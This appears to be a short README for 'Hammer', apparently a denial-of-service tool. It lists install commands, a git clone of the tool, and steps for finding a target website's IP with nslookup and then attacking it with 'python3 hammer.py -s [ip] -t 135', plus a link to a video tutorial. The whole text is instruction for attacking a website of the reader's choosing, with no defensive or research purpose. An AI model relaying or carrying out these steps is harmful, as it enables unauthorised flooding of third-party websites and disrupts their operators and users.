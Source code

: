$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python3 hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python3 hammer.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)
